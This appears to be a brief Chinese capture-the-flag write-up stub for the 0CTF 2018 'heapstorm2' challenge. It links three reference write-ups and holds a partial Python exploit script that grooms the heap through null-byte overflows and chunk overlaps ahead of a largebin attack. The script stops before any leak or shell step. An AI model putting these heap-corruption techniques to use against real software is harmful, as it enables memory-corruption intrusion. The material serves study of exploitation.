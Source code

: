 分析先咕了，等完全理解了再补充。先放一些参考的 wp：

- [wp1](http://eternalsakura13.com/2018/04/03/heapstorm2/)
- [wp2](https://veritas501.space/2018/04/11/Largebin%20%E5%AD%A6%E4%B9%A0/)
- [wp3](https://github.com/willinin/0ctf2018/blob/master/heapstorm2/heapstorm2.md)

```python
def add(size):
    sl('1')
    ru('Size:')
    sl('%d' % size)
    ru('Command:')

def edit(index, content):
    sl('2')
    sla('Index:',str(index))
    sla('Size:', str(len(content)))
    sa('Content:',content)
    ru('Command:')

def free(index):
    sl('3')
    sla('Index:',str(index))
    ru('Command:')

def show(index):
    sl('4')
    sla('Index:', str(index))
    m = ru('Command:')
    pos1 = m.find(']: ') + len(']: ')
    pos2 = m.find('\n1.')
    return m[pos1:pos2]

add(0x18) # 0
add(0x508) # 1
add(0x18) # 2
edit(1,flat('a'*0x4f0,0x500))

add(0x18) # 3
add(0x508) # 4
add(0x18) # 5
edit(4,flat('a'*0x4f0,0x500))
add(0x18) # 6

free(1)
edit(0,'a'*(0x18-12))
add(0x18) # 1
add(0x4d8) # 7
free(1)
free(2)
add(0x38) # 1
add(0x4e8) # 2

free(4)
edit(3,'a'*(0x18-12))
add(0x18) # 4
add(0x4d8) # 8
free(4)
free(5)
add(0x48) # 4

free(2)
add(0x4e8) # 2
free(2)

```